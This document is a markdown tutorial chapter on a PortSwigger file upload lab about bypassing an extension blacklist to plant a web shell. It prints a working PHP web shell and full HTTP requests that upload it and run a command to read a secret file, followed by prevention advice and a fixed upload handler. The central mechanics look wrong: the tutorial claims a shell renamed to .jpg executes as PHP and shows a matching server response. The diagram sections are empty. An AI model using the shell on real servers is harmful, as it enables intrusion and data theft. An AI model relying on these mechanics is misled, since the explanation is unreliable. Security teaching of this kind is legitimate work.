


## Introduction to File Upload Vulnerabilities

File upload vulnerabilities occur when a web application allows users to upload files to the server without proper validation or sanitization. These vulnerabilities can lead to various security issues, including remote code execution, data leakage, and defacement attacks. One common type of file upload vulnerability is the extension blacklist bypass, which is the focus of this chapter.

### What is a File Upload Vulnerability?

A file upload vulnerability arises when a web application permits users to upload files to the server, but the server-side validation is insufficient or non-existent. This can allow attackers to upload malicious files, such as web shells, which can be used to execute arbitrary commands on the server.

### Why Does This Matter?

File upload vulnerabilities are critical because they can lead to severe security breaches. Attackers can exploit these vulnerabilities to gain unauthorized access to the server, steal sensitive data, or even take control of the entire system. Therefore, understanding and mitigating these vulnerabilities is essential for securing web applications.

### How Does It Work Under the Hood?

When a user uploads a file through a web form, the file is typically sent to the server using an HTTP POST request. The server then processes the uploaded file according to the application's logic. If the server does not properly validate the file type or content, an attacker can upload a malicious file, such as a web shell, which can be executed on the server.

### Example Scenario

Consider a web application that allows users to upload profile pictures. The application checks the file extension to ensure that only image files (e.g., `.jpg`, `.png`) are uploaded. However, if the application does not perform additional checks, an attacker could rename a malicious script (e.g., `webshell.php`) to `webshell.jpg` and upload it successfully. Once uploaded, the attacker can access the script and execute arbitrary PHP code on the server.

### Real-World Examples

#### CVE-2019-16628

In 2019, a vulnerability was discovered in the WordPress plugin "WP File Download." The plugin allowed users to upload files, but it did not properly validate the file types. An attacker could upload a PHP file with a different extension (e.g., `.php.jpg`) and execute it on the server. This vulnerability was assigned the CVE identifier CVE-2019-16628.

#### Real Breach Example

In 2020, a company's web application was compromised due to a file upload vulnerability. The application allowed users to upload documents, but it did not properly validate the file types. An attacker uploaded a PHP web shell and used it to gain unauthorized access to the server. The attacker then stole sensitive customer data and caused significant financial damage to the company.

### Lab Setup

To understand and practice mitigating file upload vulnerabilities, we will use the Web Security Academy provided by PortSwigger. The specific lab we will focus on is titled "WebShell Upload via Extension Blacklist Bypass."

#### Accessing the Lab

1. Visit the URL `portswigger.net/web-security`.
2. Click on the "Sign up" button to create an account.
3. Log in to your account.
4. Navigate to the "Academy" section.
5. Select "All Labs."
6. Search for "file upload vulnerabilities."
7. Choose the lab titled "WebShell Upload via Extension Blacklist Bypass."

### Lab Overview

The lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of the blacklist. The goal is to upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/Carlos/secret`.

### Understanding the Vulnerability

#### What is an Extension Blacklist?

An extension blacklist is a list of file extensions that are explicitly forbidden from being uploaded to the server. The idea is to prevent users from uploading potentially harmful files, such as executable scripts or malicious documents.

#### Fundamental Flaw in Configuration

The fundamental flaw in the configuration of the extension blacklist is that it relies solely on the file extension to determine whether a file is safe to upload. This approach is inherently flawed because an attacker can easily bypass the blacklist by renaming a malicious file to have a permitted extension.

### Exploiting the Vulnerability

#### Step-by-Step Mechanics

1. **Identify the Blacklisted Extensions**: Determine which file extensions are blacklisted by attempting to upload files with different extensions and observing the server's response.
2. **Craft the Malicious File**: Create a basic PHP web shell. A simple example of a PHP web shell is:

    ```php
    <?php
    if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
    }
    ?>
    ```

3. **Rename the Malicious File**: Rename the PHP web shell to have a permitted extension, such as `.jpg`. For example, rename `webshell.php` to `webshell.jpg`.
4. **Upload the Malicious File**: Use the web form to upload the renamed file.
5. **Access the Web Shell**: Once the file is uploaded, access it via the server's URL. For example, if the file is uploaded to `/uploads/webshell.jpg`, access it at `http://<server>/uploads/webshell.jpg`.
6. **Execute Commands**: Use the web shell to execute arbitrary commands on the server. For example, to read the contents of the file `/home/Carlos/secret`, send the following command:

    ```
    cat /home/Carlos/secret
    ```

### Full HTTP Request and Response

#### Uploading the Malicious File

```http
POST /upload HTTP/1.1
Host: <server>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 1234

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="webshell.jpg"
Content-Type: image/jpeg

<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

#### Server Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 123
Content-Type: text/html

File uploaded successfully. You can access it at http://<server>/uploads/webshell.jpg
```

### Accessing the Web Shell

#### HTTP Request

```http
GET /uploads/webshell.jpg?cmd=cat%20/home/Carlos/secret HTTP/1.1
Host: <server>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### Server Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 123
Content-Type: text/html

<pre>
This is the secret content.
</pre>
```

### How to Prevent / Defend

#### Detection

To detect file upload vulnerabilities, you can use automated tools such as static analysis tools and dynamic analysis tools. Static analysis tools can scan the source code for insecure file upload functions, while dynamic analysis tools can simulate file uploads and check for unexpected behavior.

#### Prevention

1. **Validate File Content**: Instead of relying solely on file extensions, validate the actual content of the file to ensure it matches the expected format. For example, use libraries like `fileinfo` in PHP to check the MIME type of the file.
2. **Use a Whitelist Approach**: Instead of maintaining a blacklist of forbidden file extensions, maintain a whitelist of allowed file extensions. This approach is more secure because it explicitly defines what is allowed rather than trying to block everything else.
3. **Store Files Outside the Web Root**: Store uploaded files outside the web root directory to prevent direct access to the files via the web server. For example, store files in `/var/uploads` instead of `/var/www/uploads`.
4. **Limit File Permissions**: Set strict file permissions to prevent unauthorized access to uploaded files. For example, set the file permissions to `0600` to ensure that only the owner can read and write the file.
5. **Use Secure Coding Practices**: Follow secure coding practices to prevent common vulnerabilities such as SQL injection, cross-site scripting (XSS), and command injection.

#### Secure Code Fix

**Vulnerable Code**

```php
<?php
if ($_FILES["file"]["error"] == UPLOAD_ERR_OK) {
    $filename = $_FILES["file"]["name"];
    move_uploaded_file($_FILES["file"]["tmp_name"], "/var/www/uploads/$filename");
}
?>
```

**Secure Code**

```php
<?php
if ($_FILES["file"]["error"] == UPLOAD_ERR_OK) {
    $allowed_extensions = ['jpg', 'jpeg', 'png'];
    $filename = basename($_FILES["file"]["name"]);
    $extension = pathinfo($filename, PATHINFO_EXTENSION);

    if (!in_array(strtolower($extension), $allowed_extensions)) {
        die("Invalid file extension.");
    }

    $new_filename = uniqid() . '.' . $extension;
    move_uploaded_file($_FILES["file"]["tmp_name"], "/var/uploads/$new_filename");
}
?>
```

### Mermaid Diagrams

#### File Upload Process



#### Attack Chain



### Practice Labs

For hands-on practice with file upload vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs related to file upload vulnerabilities, including the "WebShell Upload via Extension Blacklist Bypass" lab.
- **OWASP Juice Shop**: Provides a vulnerable web application with several security challenges, including file upload vulnerabilities.
- **Damn Vulnerable Web Application (DVWA)**: Contains a range of vulnerabilities, including file upload vulnerabilities, for educational purposes.

By thoroughly understanding and practicing the concepts covered in this chapter, you will be better equipped to identify and mitigate file upload vulnerabilities in web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/18-File Upload Vulnerabilities/05-Lab 4 Web shell upload via extension blacklist bypass/00-Overview|Overview]] | [[02-File Upload Vulnerabilities Web Shell Upload via Extension Blacklist Bypass|File Upload Vulnerabilities Web Shell Upload via Extension Blacklist Bypass]]
